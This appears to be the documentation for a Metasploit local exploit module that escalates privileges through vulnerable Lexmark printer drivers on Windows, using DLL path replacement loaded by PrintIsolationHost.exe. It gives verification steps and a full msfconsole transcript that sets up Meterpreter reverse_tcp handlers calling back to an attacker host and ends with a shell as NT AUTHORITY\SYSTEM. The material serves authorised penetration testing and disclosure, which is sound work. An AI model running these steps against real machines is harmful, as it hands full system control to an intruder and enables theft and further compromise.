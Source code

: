 ## Vulnerable Application

  [Various Lexmark printer drivers](http://support.lexmark.com/index?page=content&id=TE953) allow escalation of
  privileges on Windows systems.

  For vulnerable drivers, a low-privileged user can
  modify an XML configuration file and replace a
  DLL path with a malicious DLL path.

  `PrintIsolationHost.exe`, a Windows process running
  as NT AUTHORITY\SYSTEM, loads driver-specific DLLs
  during the installation of a printer. A user can
  elevate to SYSTEM by writing a malicious DLL to
  the vulnerable configuration file and adding a new
  printer with a vulnerable driver.

  This module leverages the `prnmngr.vbs` script
  to add and delete printers.

## Verification Steps

  1. Install a vulnerable Lexmark driver
  2. Start msfconsole
  3. Get a session with basic privileges
  4. Do: ```use exploit/windows/local/lexmark_driver_privesc```
  5. Do: ```set SESSION <sess_no>```
  6. Do: ```run```
  7. You should get a shell running as SYSTEM.

## Scenarios

### Tested with Lexmark Universal Print Driver v2 `v2.10.0.5`

  ```
  msf6 > use multi/handler
  [*] Using configured payload generic/shell_reverse_tcp
  msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
  payload => windows/x64/meterpreter/reverse_tcp
  msf6 exploit(multi/handler) > set lhost 10.0.0.8
  lhost => 10.0.0.8
  msf6 exploit(multi/handler) > set lport 1270
  lport => 1270
  msf6 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 10.0.0.8:1270 
  [*] Sending stage (200262 bytes) to 10.0.0.7
  [*] Meterpreter session 1 opened (10.0.0.8:1270 -> 10.0.0.7:50356) at 2021-08-04 16:01:23 -0400

  meterpreter > getuid
  Server username: MOURNLAND\lowlevel
  meterpreter > sysinfo
  Computer        : MOURNLAND
  OS              : Windows 10 (10.0 Build 17134).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 3
  Meterpreter     : x64/windows
  meterpreter > background
  [*] Backgrounding session 1...
  msf6 exploit(multi/handler) > use lexmark_driver_privesc
  [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

  Matching Modules
  ================

     #  Name                                          Disclosure Date  Rank    Check  Description
     -  ----                                          ---------------  ----    -----  -----------
     0  exploit/windows/local/lexmark_driver_privesc  2021-07-22       normal  Yes    Lexmark Driver Privilege Escalation


  Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/local/lexmark_driver_privesc

  [*] Using exploit/windows/local/lexmark_driver_privesc
  msf6 exploit(windows/local/lexmark_driver_privesc) > set session 1
  session => 1
  msf6 exploit(windows/local/lexmark_driver_privesc) > set payload windows/x64/meterpreter/reverse_tcp
  payload => windows/x64/meterpreter/reverse_tcp
  msf6 exploit(windows/local/lexmark_driver_privesc) > set lhost 10.0.0.8
  lhost => 10.0.0.8
  msf6 exploit(windows/local/lexmark_driver_privesc) > run

  [*] Started reverse TCP handler on 10.0.0.8:4444 
  [*] Running automatic check ("set AutoCheck false" to disable)
  [+] The target appears to be vulnerable. Lexmark GDL file is present
  [*] Adding printer dnvCihT...
  [*] Sending stage (200262 bytes) to 10.0.0.7
  [*] Meterpreter session 2 opened (10.0.0.8:4444 -> 10.0.0.7:50382) at 2021-08-04 16:03:23 -0400
  [*] Deleting printer dnvCihT

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > 
  ```

